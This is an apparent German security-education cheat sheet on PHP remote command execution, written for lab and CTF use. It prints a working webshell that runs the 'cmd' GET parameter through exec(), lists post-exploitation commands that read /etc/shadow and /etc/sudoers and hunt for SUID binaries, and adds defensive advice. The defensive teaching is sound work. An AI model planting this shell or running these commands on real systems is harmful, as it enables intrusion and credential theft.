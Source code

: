 # 🐘 phpRCE Cheat Sheet


---

## Inhaltsverzeichnis
- [Einleitung: Remote Command Execution in PHP](#einleitung-remote-command-execution-in-php)
- [Beispiel: Verwundbarer PHP-Code](#beispiel-verwundbarer-php-code)
- [Sicherheitsanalyse](#sicherheitsanalyse)
- [Typische Post-Exploitation-Befehle](#typische-post-exploitation-befehle)
- [Anwendungsszenarien (für Lab- oder CTF-Zwecke)](#anwendungsszenarien-für-lab--oder-ctf-zwecke)
- [Verteidigung (Blue Team)](#verteidigung-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung: Remote Command Execution in PHP

Diese Datei beschreibt ein typisches Beispiel für **Remote Command Execution (RCE)** durch eine unsichere PHP-Webanwendung.  
Der Code ermöglicht es Angreifern, über einen GET-Parameter (`?cmd=`) beliebige Shell-Befehle auf dem Zielsystem auszuführen – **ein schwerwiegender Sicherheitsfehler**.

---

## Beispiel: Verwundbarer PHP-Code

```php
<?php
  if( empty( $_GET["cmd"] ) ){
    echo "Useful things:\n";
    echo "  uname -a\n";
    echo "  id\n";
    echo "  cat /etc/passwd\n";
    echo "  cat /etc/shadow\n";
    echo "  cat /etc/group\n";
    echo "  cat /etc/group | grep admin\n";
    echo "  cat /etc/sudoers\n";
    echo "  ls -la /home\n";
    echo "  ls -la /root\n";
    echo "  ls -la /var/www\n";
    echo "  which nc\n";
    echo "  which wget\n";
    echo "  find / -type f -perm -4000\n";
  }
  echo "<pre>";
  exec( $_GET["cmd"], $out );
  echo htmlentities( join( "\n", $out ) );
  echo "</pre>";
?>
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Sicherheitsanalyse

### ❌ Problem:

Die Funktion `exec($_GET["cmd"])` erlaubt die ungefilterte Ausführung von Systembefehlen, die über die URL übergeben werden.

→ Beispiel:
`http`
```http://target.local/rce.php?cmd=whoami```

### 🛠️ Besser wäre:

- Verwendung vorbereiteter Kommandos ohne Benutzereingaben.
- Whitelisting erlaubter Befehle.
- Nutzung von `escapeshellcmd()` und `escapeshellarg()` (nur bedingt sicher).
- Oder: Verzicht auf Shell-Zugriffe aus Webanwendungen.

---

## Typische Post-Exploitation-Befehle

| Befehl                       | Beschreibung                                          |                                   |
| ---------------------------- | ----------------------------------------------------- | --------------------------------- |
| `uname -a`                   | Kernel & OS-Details                                   |                                   |
| `id`                         | Aktueller Benutzer & Gruppen                          |                                   |
| `cat /etc/passwd`            | Benutzerliste                                         |                                   |
| `cat /etc/shadow`            | Passwort-Hashes (nur als root lesbar)                 |                                   |
| `cat /etc/group`             | Gruppenliste                                          |                                   |
| `cat /etc/group`             | grep admin                                            | Prüfen, wer in "admin"-Gruppe ist |
| `cat /etc/sudoers`           | Wer hat Root-Rechte über sudo                         |                                   |
| `ls -la /home`               | Benutzerverzeichnisse prüfen                          |                                   |
| `ls -la /root`               | Root-Verzeichnis prüfen (meist geschützt)             |                                   |
| `ls -la /var/www`            | Webverzeichnis analysieren                            |                                   |
| `which nc`                   | Ist Netcat vorhanden?                                 |                                   |
| `which wget`                 | Ist wget verfügbar für Datei-Downloads?               |                                   |
| `find / -type f -perm -4000` | Alle SUID-Binaries finden (root privilege escalation) |                                   |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Anwendungsszenarien (für Lab- oder CTF-Zwecke)

- 🧪 Testen von Webshells in Laborumgebungen
- 🔍 Auffinden & Ausnutzen von RCE-Schwachstellen
- 🔐 Erkennen typischer Privilege Escalation-Pfade
- 🛠️ Automatisierung mit curl, Burp oder Exploitskripten

--- 

## Verteidigung (Blue Team)

- Verwende niemals Benutzereingaben direkt in `exec()`, `system()`, `passthru()` etc.
- Setze Application Firewalls ein (z. B. ModSecurity).
- Nutze sichere Webframeworks mit Sandboxing.
- Begrenze Rechte des Webservers (z. B. www-data darf nicht root sein).
- Erkenne Anomalien per Logüberwachung (z. B. suspicious cmd= Requests).

---

## Siehe auch

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/injektionen/sql_injection_to_shell.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/injektionen/sql_injection_to_shell.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/break-fix/break_and_fix_query.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/break-fix/break_and_fix_query.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/14-vulnerabilities/sqlInjection/union_based_attack.md](https://github.com/bitRaybytes/cybersecurity/blob/main/14-vulnerabilities/sqlInjection/union_based_attack.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---